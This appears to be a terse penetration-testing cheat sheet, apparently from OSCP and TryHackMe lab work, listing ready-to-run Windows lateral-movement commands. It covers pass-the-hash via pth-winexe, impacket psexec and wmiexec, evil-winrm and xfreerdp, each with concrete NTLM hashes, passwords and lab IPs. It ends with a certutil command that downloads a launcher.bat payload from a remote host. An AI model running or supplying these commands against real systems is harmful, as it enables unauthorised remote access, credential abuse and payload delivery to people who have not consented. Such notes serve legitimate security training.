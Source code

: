 # windows

## pass the hash
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

## psexec
```
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash

impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:0109d7e72fcfe404186c4079ba6cf79c administrator@172.16.1.5
impacket-psexec 'cyber_adm:Passw0rd!'@172.16.1.24 

impacket-wmiexec -hashes :7facdc498ed1680c4fd1448319a8c04f administrator@172.16.4.31
```

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py  -hashes "af636dea707fa9cf431562c90e8a4044:af636dea707fa9cf431562c90e8a4044" Administrator@10.11.1.222
```


## evil-winrm

```
evil-winrm -i 10.11.1.221 -u 'john' -p 'easyas123'

evil-winrm -i 192.168.140.10 -u 'offsec' -H '2892d26cdf84d7a70e2eb3b9f05c425e'                              # pass the hash
```


## rdp
```
xfreerdp /u:offsec /p:'lab' /v:192.168.140.10 +clipboard 
xfreerdp /u:Administrator /pth:'' /v:10.11.1.221 +clipboard 

xfreerdp /v:thmwrk1.za.tryhackme.loc /u:t2_henry.harvey /p:'max.123456'

xfreerdp /u:i.wood /p:'7@@$if*7l0E!9zFs' /w:600 /h:500 /v:10.10.120.102

rdesktop -d <domain> -u <username> -p <password> <IP>
```


# linux



pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.140.10 cmd


python3 /usr/share/doc/python3-impacket/examples/psexec.py   corp\jeff_admin@192.168.166.10

certutil -urlcache -split -f "http://192.168.119.166/launcher.bat" launcher.bat



